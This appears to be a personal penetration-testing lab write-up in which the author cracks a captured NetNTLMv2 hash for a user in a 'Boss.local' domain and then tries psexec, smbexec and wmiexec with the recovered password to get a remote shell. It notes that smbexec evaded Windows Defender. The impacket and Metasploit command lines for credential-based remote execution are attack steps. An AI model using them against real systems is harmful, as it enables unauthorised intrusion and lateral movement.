









# Gaining  Shell Access

After cracking the hashed password belongs to pparker user 

hashed value:

pparker::BOSS:e41564f8694b9e67:28393F1409C34B2ECDE057813F5C1C47:0101000000000000631A66180626DD01E9117D8559BABED000000000020008004C0030005300380001001E00570049004E002D004300340037004E004D00440057004400360048003600040014004C003000530038002E004C004F00430041004C0003003400570049004E002D004300340037004E004D004400570044003600480036002E004C003000530038002E004C004F00430041004C00050014004C003000530038002E004C004F00430041004C00080050005000000000000000010000000020000053F14777D8D56A2A786D63516E2C41C828DBEC655C177BE6EE6A5BAC464037380C998DCA992B86AF45F748ED45F889EEB69DEB68B7FDE83FD992A1E6132187270A001000000000000000000000000000000000000900200048005400540050002F0070006F006B00690065002E006C006F00630061006C000000000000000000

password : MYp@$$w0rd!2

## psexec-msfconsole

set password: MYp@$$w0rd!2
 

so msfconsol failed to gain reverse shell

## psexec.py

psexec.py domain/username:'password'@target-address

windows detected the malicouse file and put it in a resterctid area so we can't get shell access.

## smbexec.py

smbexec.py domain/username:'password'@target-address

smbexec.py gives us a pseudo interactive shell!! 

┌──(root㉿kali)-[/home/kali]
└─# smbexec.py Boss.local/pparker:'MYp@$$w0rd!2'@192.168.225.130

we got a semi-interactive shell  ^-^

notice that windows defender didn't catch it.

## wmiexec.py

┌──(root㉿kali)-[/home/kali]
└─# wmiexec.py Boss.local/pparker:'MYp@$$w0rd!2'@192.168.225.130

didn't work

